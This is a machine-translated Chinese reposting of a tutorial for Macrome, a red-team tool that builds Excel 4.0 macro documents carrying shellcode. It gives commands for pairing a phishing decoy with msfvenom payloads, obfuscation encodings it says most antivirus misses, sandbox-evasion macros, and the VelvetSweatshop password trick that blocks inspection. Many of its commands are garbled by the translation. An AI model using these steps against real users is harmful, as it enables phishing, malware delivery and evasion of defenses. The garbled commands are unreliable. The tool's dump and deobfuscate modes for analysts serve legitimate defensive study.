

# Macrome:适用于 Red Teamers 和分析师的 Excel 宏文档读取器/写入器

> 原文：<https://kalilinuxtutorials.com/macrome/>

为红队&分析师设计的 Excel 宏文档阅读器/书写器。描述这个工具实际上做什么的博客文章可以在这里和这里找到。

# 安装/建筑

克隆或下载该存储库，然后可以使用 dotnet 执行该工具，例如:

**dot net run-build–decoy-document Docs \ decoy _ document . xls–payload Docs \ pop calc . bin**

或者

**dot net build
CD bin/Debug/netcoreapp2.0
dot net macrome . d**ll deobfuscate–path obfuscated _ document . xls

请注意，这需要一个 5.0+版本的 dotnet 才能按配置工作——它可以从 https://dotnet.microsoft.com/download/dotnet/5.0.获得

不需要 dotnet 且包含可执行二进制文件的工具的二进制版本可以在 Windows、OSX 和 Linux 的版本部分找到。

# 用法

通过使用解决方案目录中的`**dotnet run**`或针对构建的 Macrome 二进制文件使用`**dotnet**`来运行 Macrome。Macrome 有三种操作模式——构建模式、转储模式和去泡沫模式。

## 构建模式

使用`**build**`命令运行 Macrome，以便使用提供的诱饵文档和宏有效载荷生成包含模糊宏表的 Excel 文档。`**dotnet Macrome.dll build -h**`将显示完整的使用说明。

例如，要使用诱饵文档`**path/to/decoy_document.xls**`和存储在`**path/to/shellcode.bin**`的二进制 x86 外壳代码构建一个文档，运行`**dotnet Macrome.dll build --decoy-document path/to/decoy_document.xls --payload** /` **`path/to/shellcode.bin`。**这将生成一个 XLS 2003 文档，在打开并按下“启用内容”按钮后，将执行 **`shellcode.bin`的外壳代码。**

### 我应该如何运行它？

文档的其余部分将详细解释每个标志/功能，但现在可以通过运行以下命令获得 Macrome 提供的“最新和最棒的”功能:

**Macrome build–decoy-document decoy _ document . xls–payload beacon . bin–payload 64 位 beacon 64 . bin–payload-method base 64–method arguments subroutines–password velvets weatshop–preamble preamble . txt–output-file-name ready tophish . xls**

### 二进制有效负载使用

首先生成一个基本的“诱饵”Excel 文档，其中包含用户应该看到的内容。这应该是某种诱惑，说服用户点击 Excel 中显示的“启用宏”按钮。在 https://inre . net/blog/2020/05/06/ZLoader-4.0-macro sheets 上有一些“最新和最伟大的”诱饵创作的例子。一旦创建了这个表单，将文档保存为类型`**Excel 97-2003 Workbook (*.xls)**`而不是新的`**Excel Workbook (*.xlsx)**`格式。在`**/Docs/decoy_document.xls**`中有一个诱饵文件的例子。请注意，如果您使用 XOR 模糊处理来保护您的文档，您目前不能向诱饵添加图像。

接下来，生成一个 shellcode 有效负载以提供给工具。示例二进制有效负载(弹出 calc)是使用以下参数通过`**msfvenom**`生成的:

**MSF venom-a x86-b ' \ x00 '–platform windows-p windows/exec cmd = calc . exe-e x86/alpha _ mixed-f raw exit func = thread>pop calc . bin**

还支持 64 位有效负载。示例 64 位有效负载`**popcalc64.bin**`是使用以下命令生成的:

**MSF venom-a x64-b ' \ x00 '–platform windows-p windows/x64/exec cmd = calc . exe-e x64/xor-f raw exit func = thread>pop calc 64 . bin**

然后，可以通过执行以下命令来嵌入该有效负载:

**dot net Macrome.dll 版本–decoy-document decoy _ document . xls–payload pop calc . bin–payload 64 位 popcalc64.bin**

目前，64 位有效负载还需要提供 x86 有效负载。如果这不是问题，您可以为 x86 有效负载标志指定垃圾。

最终会支持嵌入。NET 程序集，但是如果你现在就想这么做，我建议你使用 EXCELntDonut。

从 Macrome 0.5.0 和更高版本开始，所有有效负载都将使用 base64 编码，因此您的有效负载将能够包含任何字节序列(包括空字节)。

#### 嵌入可执行文件

如果您想使用 Macrome 嵌入一个. NET 可执行文件，我建议使用 Donut 和命令`**donut.exe -a 3 -b** **1 -z 1 executableToEmbed.exe**`，然后嵌入生成的有效负载作为您的 32 位和 64 位有效负载。

另一个可靠的选择是 Amber，它非常适合嵌入一些相当大的 Go 二进制文件。

#### 传统有效载荷编码

如果出于某种原因，您想要使用 Macrome 0.5.0 之前版本的传统有效负载编码模式，请使用带有`**SheetPackingMethod**`的`**--payload-**` **`method`** 标志。请注意，在传统模式中，使用多数字母数字有效载荷将减少生成的宏文件的大小，因为用宏形式表示字母和数字比像`**=CHAR(123)&CHAR(124)&CHAR(125)...**`等重复追加`**CHAR**`函数调用更容易。但是该工具也应该能够处理完全不可打印的二进制负载。

### 宏有效载荷使用

类似于二进制有效载荷的使用，必须首先生成诱饵文档。接下来，应该创建一个包含要运行的宏的文本文件。宏应该有由`;`字符分隔的列和由换行符分隔的行。目前，指定的宏内容将从 A1 开始编写和执行——尽管将来会添加支持以允许指定开始位置。宏的例子可以在`**/Docs/macro_example.txt**`和 **`/Docs/multi_column_macro_example.txt`中找到。**

最后运行命令:

**点网 Macrome.dll 构建–decoy-document decoy _ document . xls–有效载荷宏-example . txt–有效载荷类型宏**

注意设置为`**Macro**`的`**payload-type**`标志的用法。

您可以自己生成一个宏，也可以使用非常棒的 EXCELntDonut 工具为您创建一个宏。

### 编码方式选择

这些将在接下来的博客中详细介绍，但是 Macrome 现在可以用三种不同的方式编码宏负载。其中大多数仍然无法被任何反病毒软件检测到——但是请用你的有效载荷进行试验，看看什么效果最好。

*   *CHAR subroutine*–通过在随机单元格创建一个子例程，然后使用一长串的`**IF**`和`**SET.NAME**`函数来调用它，从而取代了重复 CHAR()函数的使用。这是一些还没有被著名的 maldoc 作者滥用的东西，所以现在不太可能在 AV 上 ping 通。
*   *ObfuscatedCharFunc*–原来的 Macrome 编码函数。调用 CHAR()，但将其附加到一个随机的空单元格中，并将该值包装在一个`R` **`OUND`** 函数中。
*   *obfuscadcharfuncalt*–与原始编码略有不同，我们没有使用 PtgFunc 来调用 CHAR，而是使用了 PtgFuncVar–这破坏了大多数试图对 CHAR 调用进行计数的签名。
*   *antialisischarsubroutine*–与 *CharSubroutine* 相同，但是传递给子程序的变量使用 Unicode 诡计进行混淆，如下所述。注意，由于添加了诱饵变量名，这将生成比 *CharSubroutine* 模式更大的文档。
*   *ARGUMENT subroutines*–为 CHAR()和 FORMULA()创建自定义子例程，将它们作为自定义函数调用，并使用模拟器较少支持的 ARGUMENT()宏解析参数。

构建时使用`**method**`标志指定编码——例如，使用 *CharSubroutine* 编码器:

**点网 Macrome.dll b–decoy-document decoy _ document . xls–method char subroutine–payload pop calc . bin–output-file-name char subroutine-macro . xls**

### 序言宏

有时，您可能希望某些宏在有效负载代码之前运行。当您添加用于沙盒规避的宏和/或验证您的有效负载是否在正确的主机上运行时，这很有帮助。

前导文件的格式与使用 **`payload-type` `Macro`** 时完全相同，但仅支持单列。例如，您可以有一个序言:

**=IF(GET。WORKSPACE(13) < 770，CLOSE(FALSE)，)
=IF(GET。工作区(14) < 390，CLOSE(FALSE)，)
=IF(GET。WORKSPACE(19)，，CLOSE(FALSE))
=IF(GET。工作区(42)，，关闭(FALSE))**

这将检查屏幕分辨率值、鼠标的存在以及播放声音的能力。如果其中任何一项失败，那么应用程序将在运行主要有效负载内容之前关闭。

此外，如果您想让前置宏立即求值，而不是在解包其余的宏之后，您可以在命令前面加上`**%%%%%**`。例如:

**% % % % = IF(GET。WORKSPACE(13) < 770，HALT()，)
% % % % = IF(GET。工作区(14) < 390，HALT()，)
% % % % = IF(GET。WORKSPACE(19)，，HALT())
% % % % = IF(GET。工作区(42)，，HALT())**

这有助于最小化在杀死文档之前运行的 XLM 命令的数量，并且有助于对沙箱指示器的存在做出更即时的反应。

### 异或混淆密码保护

Macrome 0.3.0+支持使用 XOR 模糊处理对文档进行密码保护，XOR 模糊处理是 Office 早期版本的一种传统加密模式。IR 工具通常不支持这种加密模式，它有助于保护文档内容免受检查。

Excel 有一个“默认”密码`**VelvetSweatshop**`，它将允许您加密文档内容，同时仍然使文档在打开时自动解密。这是在攻击性上下文中使用 XOR 混淆的“理想”方式。当删除或转储文档时，Macrome 将自动尝试使用该密码。

要使用这个功能，只需在构建命令中添加 **`--password <passwordToEncrypt>` t** 。

## 转储模式

使用`**dum**p`命令运行 Macrome，为任意文档打印最相关的 BIFF8 记录。此功能类似于 olevba 的宏转储功能，但它对边缘情况下的 Ptg 条目进行了一些更完整的处理，以帮助确保格式尽可能接近 Excel 的实际公式条目。这是我用来调试我在制作这个工具时生成的一些奇怪的 edge case 文档的，所以它相当健壮。我敢肯定，现在有大量的 edge 案例不受支持，因此，如果您发现一个文档不能正确转储其内容，请打开一个问题，并将该文档作为 zip 文件共享。

dump 命令只需要一个指向目标文件的`**path**`参数。调用的一个例子是:

**点网 Macrome.dll 转储–路径 docToDump.xls**

`**dump**`命令的大多数标志都是用于调试的，但是对于想要查看相关记录的单个字节有效载荷的用户来说,`**dump-hex-bytes**`可能很有用。这是 BiffView 的类似功能，尽管默认情况下只显示 maldoc 特定的条目。

## 去泡沫模式

使用`**deobfuscate**`命令运行 Macrome，获取一个模糊的 XLS 二进制文档，并尝试逆转几个反分析行为。`**dotnet Macrome.dll deobfuscate -h**`将显示完整的使用说明。目前，默认情况下，该模式将:

*   取消隐藏所有工作表，不管它们的隐藏状态
*   规范化所有`**Lbl**`条目的手动指定标签，Excel 会将其解释为 Auto_Open 条目，尽管它们的名称与该字符串不匹配。

例如，要在`**path/to/obfuscated_file.xls**`清除恶意的 XLS 2003 宏文件，运行`**dotnet** **Macrome.dll deobfuscate --path path/to/obfuscated_file.xls**`。这将生成一个模糊文件的副本，更容易手动或使用工具进行分析。

**注意** : *这还没做太多，主要是为了演示如何使用修改后的 b2xtranslator 库来帮助自动化去模糊。更多有用的功能即将推出。*

[**Download**](https://github.com/michaelweber/Macrome)